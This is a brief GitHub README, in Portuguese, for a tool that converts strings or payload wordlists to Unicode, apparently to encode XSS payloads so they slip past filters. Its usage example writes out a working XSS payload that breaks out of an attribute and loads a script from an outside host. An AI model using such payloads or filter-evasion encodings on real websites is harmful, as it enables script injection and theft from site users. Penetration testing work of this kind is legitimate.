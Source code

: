 # Converter_Unicode

</h1>Passe para o programa uma unica string ou um arquivo de payloads para converter</h1>
</br>
<h2>instalar=> pip install termcolor</h2>
</br>

<h3>Uso exemplo para string: python3 teste.py -s "><script src=\"https://js.rip/j14fkfemu3\"></script></h3>
</br>
<h3>Uso exemplo para wordlist.txt: python3 teste.py -w xss_good.txt</h3>

</br>

<img src="./uni.png">
